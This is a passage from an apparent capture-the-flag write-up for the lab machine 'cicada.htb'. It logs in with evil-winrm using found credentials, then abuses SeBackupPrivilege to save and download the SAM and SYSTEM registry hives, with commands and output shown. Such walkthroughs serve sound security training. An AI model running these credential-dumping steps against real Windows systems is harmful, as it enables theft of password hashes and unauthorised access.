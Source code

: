 
## Foothold 
And thanks to emily for hard coding credentials, we can log in :)
```
evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```


## PrivEsc
After logging in to the user `emily.oscars`, checking the privliges for the account
gave us a huge idea on what to do research about, looking up dangreous windows privliges should be 
more than enough to find out how to abuse `SeBackupPrivilege`.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

### Abusing `SeBackupPrivilege`:
Firstly the `SeBackupPrivilege` is a user privilge that allows a specific user to bypass
file system permissions.


```
Evil-WinRM* PS C:\> mkdir Temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/29/2024   7:14 PM                Temp


*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\Temp> download sam                                        
Info: Downloading C:\Temp\sam to sam

*Evil-WinRM* PS C:\Temp> download system                                        
Info: Downloading C:\Temp\system to system
```
if that didn't work, login via smb and use `get system`
